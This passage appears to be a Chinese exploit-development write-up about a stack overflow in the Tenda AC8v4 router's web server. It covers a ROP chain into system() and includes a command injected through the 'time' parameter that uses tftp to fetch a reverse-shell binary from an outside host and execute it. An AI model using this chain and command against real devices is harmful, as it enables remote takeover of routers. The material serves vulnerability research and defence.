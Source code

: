 由于某种神秘原因，system() 似乎也接受 $s4-s6 作为参数，其中 $s4-$s5 被设置为 t9_EQ_s4_JR_1C_p_18 的协同变量（move $t9, $s4），而 $s6 被设置为 gadget1 的协同变量，如 stack-based 偏移量 0x38+var_s18($sp) 指定的那样。这使我们能够通过 system() 执行一个 8字节 的命令。尽管如此，考虑到 $a0 在 gadget3 中设置为 a0_EQ_sp24_c_JR_24sp，偏移量为 sp_offset + 0x60 + 0x38 + 0x24 + 0xC - 0x7，我们可以执行任意长度的命令！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yGKTU8En1lUTWmh7rj1ico6Azhcw0fjHmnYhH6ZIOts7kgkibcWA4x0EIXfNyibHreZPjR1sy3sZtGVA/640?wx_fmt=png&from=appmsg "")  
  
image-20240613003719340  
## 后果：无 Wget 和无连字符  
  
此时，在 Tenda Ac8v4 路由器上执行任意命令对我们来说是轻而易举的。然而，如果你曾登录过为该路由器文件系统创建的 QEMU VM，你会发现几乎没有什么可以运行的，甚至 scp 和 wget 在 busybox 中都不存在。那么，我们如何创建一个反向 shell 以连接回我们的机器呢？答案仍然隐藏在 busybox 中：  
```
当前定义的函数：
    [[, adduser, arp, ash, awk, brctl, cat, chmod, cp, date, depmod,
    dev, echo, egrep, env, expr, false, fgrep, free, grep, halt,
    ifconfig, init, insmod, kill, killall, linuxrc, ln, login, ls, lsmod,
    mdev, mkdir, mknod, modprobmount, mv, netstat, passwd, ping, ping6,
    poweroff, ps, pwd, reboorm, rmdir, rmmod, route, sed, sh, sleep,
    sulogin, sync, tar, telnetd, test, tftp, top, touch, traceroute,
    traceroute6, true, umount, uptime, usleep, vconfig, vi, yes

```  
  
在所有这些有趣的功能中，只有一个引起了我的注意：tftp；（这很讽刺，因为路由器本身与互联网通信的唯一方式是通过 tftp 或 telnetd 和 ping）使用 tftp，我们想到构建一个反向 shell 连接恶意软件，并将其托管在我们的 tftp 上；然后通过路由器的 tftp 二进制文件获取它；进一步地，我们可以 chmod +x 和 ./RUNIT，创建一个反向 shell！这真是太有趣了！通过在远程托管 tftp 服务器，使用：sudo apt-get install xinetd tftpd tftp 并在 /etc/xinetd.d/tftp 中指定 server_arg，你可以按照这个 教程 操作。  
  
这种方法看起来非常有前途，但在尝试获取我们编写的恶意软件时，你会发现一些非常奇怪的情况；当我们将命令 $(tftp -g -r rs 192.168.31.101 && chmod +x rs && ./rs 192.168.31.101 9000) 传递给 c3 时，./bin/httpd 的后台会持续报错 unfinished ()；这为什么会这样？好吧，回顾一下我们的代码，你可能会理解：  
```
int __fastcall sub_4A79EC(int a1)
{
  ....
  s = (char *)websGetVar(a1, "time", &unk_4F09E0);
  sscanf(s, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", v6, v8, v10, v12, v14, v16);
  v18.tm_year = atoi((const char *)v6) - 0x76C;
  v18.tm_mon = atoi((const char *)v8) - 1;
  ....
}

```  
  
如你所记得，sub_4A79EC 逻辑会导致 stack-based overflow 是因为它扫描 s -> (char *)websGetVar(a1, "time", &unk_4F09E0); 到 v6, v8, v10, v12, v14, v16 时没有边界限制。这允许我们构造一个 payload：time=retr0:xxxxx<overflowing_character>xxxxx 来造成 overflow。回顾一下我们描述的 sscanf 在 regex 中的工作方式，  
> 这里的 sscanf 使用正则表达式 %[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s 过滤输入；将数据提取到 v6 或 v9 或 v10 或... 作为 data1:data2:data2 或 data1-data2-data3；因为这些变量位于栈上，甚至更危险。  
  
  
sscanf 使用 : 或 - 作为分隔符提取我们的数据；包括 tftp -g -r rs 的连字符 -g 也会被包含在内！这将导致 sscanf 将原始输出截断到 v6, v8, v10，因此只有前缀直到 - 会被保留并执行！这导致 () 的未完成。命令执行失败。那么，我们如何解决连字符问题？  
  